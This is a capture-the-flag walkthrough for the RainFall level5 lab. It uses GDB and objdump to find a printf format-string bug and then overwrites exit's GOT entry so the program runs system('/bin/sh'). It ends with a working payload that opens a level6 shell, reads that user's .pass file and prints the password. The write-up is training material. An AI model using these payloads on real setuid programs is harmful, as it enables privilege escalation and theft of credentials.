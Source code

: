 # Level5

## Walkthrough

We list the files in the current home directory.

```bash
level5@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
level5@RainFall:~$ file level5 
level5: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xed1835fb7b09db7da4238a6fa717ad9fd835ae92, not stripped
```

The file is owned by **level6** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

There are 3 interesting functions: `main()`, `o()` and `n()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

The `main()` function only calls the `n()` function.

```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

The `n()` function:
- calls `fgets()` to read user input from stdin
- pass the user input to `printf()`
- calls `exit()`

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

The `o()` function only calls `system("/bin/sh")`.

From our experience with the previous levels, we figure out that we will have to complete this one with a **format string attack**, thanks to `printf()`, in order to call `o()`.  
The logic is similar to the **level3** and **level4**, do not hesitate to read their `README` if needed.

Our first attempt to get the password is to overwrite the `old eip` stored before calling `printf()` with the address of `o()`.

```
(gdb) b printf
Breakpoint 1 at 0x8048380
(gdb) r
Starting program: /home/user/level5/level5 
AAAA

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
eax            0xbffff430	-1073744848
ecx            0xb7fda005	-1208115195
edx            0xb7fd28c4	-1208145724
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff41c	0xbffff41c
ebp            0xbffff638	0xbffff638
esi            0x0	0
edi            0x0	0
eip            0xb7e78850	0xb7e78850 <printf>
eflags         0x200292	[ AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/16wx 0xbffff41c
0xbffff41c:	0x080484f8	0xbffff430	0x00000200	0xb7fd1ac0
0xbffff42c:	0xb7ff37d0	0x41414141	0xb7e2000a	0x00000001
0xbffff43c:	0xb7fef305	0xbffff498	0xb7fde2d4	0xb7fde334
0xbffff44c:	0x00000007	0x00000000	0xb7fde000	0xb7fff53c
```

The first hexadecimal address `0x080484f8`, at the top of the stack, represents the address of the next `n()` instruction. It is stored at `0xbffff41c`, and the `o()` address is `0x080484a4`.  

```bash
level5@RainFall:~$ (python -c "print('\x1c\xf4\xff\xbf' + '%8x%8x%134513808x' + '%n')"; cat) | ./level5
```

Unfortunately the spawned shell is instantly closing. After discussing with other students, the `exit()` calls may be the reason of our problem. To bypass this issue, we can perform a **GOT overwrite**.

> Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

We have to find the address of `exit()` in the GOT.

```
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```

```
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    DWORD PTR ds:0x8049838
   0x080483d6 <+6>:     push   0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

The `objdump` command can also be used in order to list all the GOT entries.

```bash
level5@RainFall:~$ objdump --dynamic-reloc ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

Our new target is the address `0x08049838`. We rewrite our command with the updated value.

```bash
level5@RainFall:~$ (python -c "print('\x38\x98\x04\x08' + '%8x%8x%134513808x' + '%n')"; cat) | ./level5
# [...]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Resources

- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
- [GOT and PLT for pwning.](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)
